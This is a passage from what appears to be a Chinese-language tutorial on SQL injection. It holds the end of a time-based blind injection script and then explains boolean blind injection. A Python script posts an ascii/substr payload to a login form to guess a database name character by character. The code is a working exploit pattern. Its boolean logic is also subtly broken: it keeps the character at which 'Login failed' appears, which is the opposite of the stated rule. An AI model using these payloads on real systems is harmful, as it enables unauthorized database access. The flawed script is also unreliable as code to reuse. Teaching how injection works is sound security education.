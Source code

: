                 break
        else:
            continue
        break
    

以上脚本中，我们首先定义了目标网站的URL和注入参数，然后构造了一个注入语句，其中使用了时间盲注的技巧，使用sleep函数控制响应时间。接着，我们使用一个双重循环来猜测数据库名称中的每一个字符，如果猜测正确，则响应时间会超过5秒，从而得到正确的字符

### 布尔注入检测脚本

布尔注入的基本原理是通过构造恶意的SQL查询语句，使目标网站返回不同的响应结果（True或False）

这里的True和False是什么？

水无常形，需要根据情况讨论，如果我们的一个SQL注入脚本，正确的时候，是返回200状态码，失败的时候，返回404状态码，这里的对应

*   True 200
*   False 404

另一种情况，正确的时候，返回个人信息，失败的时候，返回为空，这里的对应

*   True 获得个人信息
*   False 空信息

在下面这个脚本中，`Login failed`为False，登录成功为True ，通过判断响应结果中是否包含“Login failed”来判断猜测是否正确

    import requests
    
    # 定义目标网站URL和注入参数
    target_url = 'http://www.example.com/login.php'
    injection_param = 'username'
    
    # 构造注入语句
    injection_payload = "' or ascii(substr(database(),{pos},1))={char}-- "
    
    # 猜测数据库名称的长度
    for length in range(1, 20):   # 假设数据库名称长度不超过20个字符
        # 猜测每一位字符
        database_name = ''
        for i in range(1, length+1):
            for j in range(33, 127):   # ASCII码表中可见字符的范围
                # 替换注入语句中的占位符
                payload = {injection_param: injection_payload.format(pos=i, char=j)}
                response = requests.post(target_url, data=payload)
                # 判断响应结果是否发生变化
                if 'Login failed' in response.text:
                    break
            else:
                continue
            database_name += chr(j)
            break
        else:
            break
    